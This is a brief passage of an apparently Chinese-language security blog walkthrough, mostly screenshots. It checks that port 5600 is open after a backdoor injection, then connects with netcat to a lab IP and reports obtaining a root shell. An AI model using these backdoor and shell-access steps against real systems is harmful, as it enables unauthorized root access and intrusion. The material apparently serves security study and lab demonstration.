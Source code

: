 <img src="https://byesec-blog-img.oss-cn-beijing.aliyuncs.com/uPic/image-20211230191858784.png" alt="image-20211230191858784" style="zoom: 50%;" />

查看5600端口是否开启：

```
ss -pantu | grep 5600
```

![image-20211230192016676](https://byesec-blog-img.oss-cn-beijing.aliyuncs.com/uPic/image-20211230192016676.png)结果显示开启，则说明注入成功，后门进程端口已成功开放

```
nc 192.168.137.244 5600
```

![image-20211230192038184](https://byesec-blog-img.oss-cn-beijing.aliyuncs.com/uPic/image-20211230192038184.png)

成功获取root权限
